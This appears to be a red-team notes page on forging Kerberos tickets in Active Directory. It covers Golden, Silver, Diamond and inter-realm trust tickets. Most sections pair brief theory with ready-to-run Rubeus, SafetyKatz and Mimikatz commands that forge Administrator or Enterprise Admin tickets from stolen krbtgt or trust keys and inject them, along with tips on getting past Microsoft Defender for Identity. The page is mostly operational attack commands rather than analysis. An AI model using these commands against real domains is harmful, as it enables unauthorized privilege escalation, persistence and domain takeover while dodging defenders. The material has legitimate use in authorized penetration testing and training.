 # Ticket Forging

{% hint style="info" %}
Always assume that MDI is active on Domain Controller

Always use AES to improve opsec

Make sure that the ticket you are forging is compliant to the KRBTGT policy
{% endhint %}

## Golden Ticket

### Theory

With the ash of the krbtgt account a ticket can be manually crafted (forged) with arbitrary parameter\
(i.e. Domain Admin)

### Abuse

With rubeus you can specify the option `/ldap` to do the majority of the opsec things

{% code overflow="wrap" %}
```powershell
./Rubeus.exe golden /aes256:<$AES256> /sid:<$SID> /ldap /User:Administrator /printcmd
```
{% endcode %}

## Silver Ticket

### Theory

Used to forge a ticket for a service account or a machine account. This ticket is not so useful as persistece because the machine passwords are rotated every 30 days

### Abuse

A silver ticket can be forged with tool like safetykatz

{% code overflow="wrap" %}
```powershell
./SafetyKatz.exe '"kerberos::golden /User:Administrator /domain:<$Domain Name> /sid:<$SID> /target:<$Machine name> /service:cifs /aes:<$AES256> /id:500 /groups:512 /startoffset:0 /endin:600 /renewmax:10080 /ptt"'
```
{% endcode %}

Or with rubeus

{% code overflow="wrap" %}
```
Rubeus.exe silver /service:<$Service> /rc4:<RC4A /ldap /sid:<$Domain SID> /user:Administrator /domain:<$Domain> /ptt
```
{% endcode %}

## Golden Ticket

Using the krbtgt aes previously obtained to craft a silver ticket

{% code overflow="wrap" %}
```
Rubeus.exe golden /aes256:<aes> /ldap /sid:<$Domain SID> /user:Administrator /printcmd
```
{% endcode %}

<figure><img src="https://github.com/italianpenty/WriteUps/raw/main/.gitbook/assets/image%20(10).png" alt=""><figcaption></figcaption></figure>

Now use the generated command to print a golden ticket nad import it

<figure><img src="https://github.com/italianpenty/WriteUps/raw/main/.gitbook/assets/image%20(11).png" alt=""><figcaption></figcaption></figure>

## Diamond Ticket

### Theory

An even more opsec friendly version of the golden ticket. Usually with a golden ticket you craft a TGT without requesting it previously, so when you use it will flag the defensive mechanism.

To forge it you have to decrypt a valid ticket, modify and incypt it again with the krbtgt hash

### Abuse

Using rubeus

{% code overflow="wrap" %}
```powershell
./Rubeus.exe diamond /krbkey:<$AES> /user:<$Controlled user> /Password:<$Password> /enctype:aes /ticketuser:administrator /domain:<$Domain> /dc:<$DC> /ticketuserid:500 /groups:512 /createonly:C:\Windows\System32\cmd.exe /show /ptt
```
{% endcode %}

You can also use `/tgtdel` instead of the credentials if you have access to a domain user



and now you can [pass-the-hash.md](../active-directory/lateral-movement/pass-the/pass-the-hash.md "mention") to execute commands

## Inter-Realm Ticket

{% code overflow="wrap" %}
```powershell
kerberos::golden /user:Administrator /domain:<CURRENT DOMAIN> /sid:<CURRENT DOMAIN SID> /sids:<SID TO EXTRACT> /rc4:<TRUST KEY> /service:krbtgt /target:<TARGET DOMAIN> /ticket:./trust_tkt.kirbi" 
```
{% endcode %}

<figure><img src="../../.gitbook/assets/Pasted image 20231113155053.png" alt=""><figcaption></figcaption></figure>

or

{% code overflow="wrap" %}
```
Rubeus.exe silver /user:Administrator /ldap /service:krbtgt/<$target Domain> /rc4:<$Trust RC4> /sids:<$Enterprise Admin SID> /nowrap
```
{% endcode %}

<figure><img src="https://github.com/italianpenty/WriteUps/raw/main/.gitbook/assets/immagine%20(34).png" alt=""><figcaption></figcaption></figure>

and use it to ask for a tgt

<pre data-overflow="wrap"><code><strong>C:\AD\Tools\Rubeus.exe asktgs /service:&#x3C;$service> /dc:&#x3C;$Local DC> /ptt /ticket:&#x3C;$Ticket>
</strong></code></pre>

<figure><img src="https://github.com/italianpenty/WriteUps/raw/main/.gitbook/assets/immagine%20(35).png" alt=""><figcaption></figcaption></figure>

\
